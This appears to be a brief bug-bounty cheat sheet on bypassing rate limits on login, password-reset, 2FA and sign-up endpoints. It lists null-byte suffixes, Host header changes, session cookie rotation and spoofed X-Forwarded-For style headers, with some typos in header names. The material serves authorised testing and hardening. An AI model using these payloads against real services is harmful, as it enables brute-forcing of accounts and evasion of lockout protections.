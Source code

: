 Where to look for Bugs
```
- login
- reset password
- 2fA
- Confirmation codes
- Sign up
```

using Null Chars

```
%00, %0d%0a, %09, %0C, %20, %0
```
```
>brute force using abc@xyz.com
	after some time
	you got blocked
>try abc@xyz.com%00
```

Host Header injection

```
Change Host:www.newsite.com
Change Host:localhost
Change Host:127.0.0.1
```


Changing cookies
```
For example if it blocks by 15 Requests
Change session on 14 req and try 
```


X-forwaded-forwaded-For
```
X-Forwarded: <IP>
X-Forwarded-For: <IP>
X-Forwarded-Host: <IP>
X-Client-IP: <IP>
X-Remote-IP: <IP>
X-Remote-Addr: <IP>
X-Host: <IP>
X-Originating-IP: <IP>
```

X-forwaded-forwaded-For
```
add 2 headers
add Header X-Forwaded-For:
add Header X-Forwaded-For:198.168.43.1
```
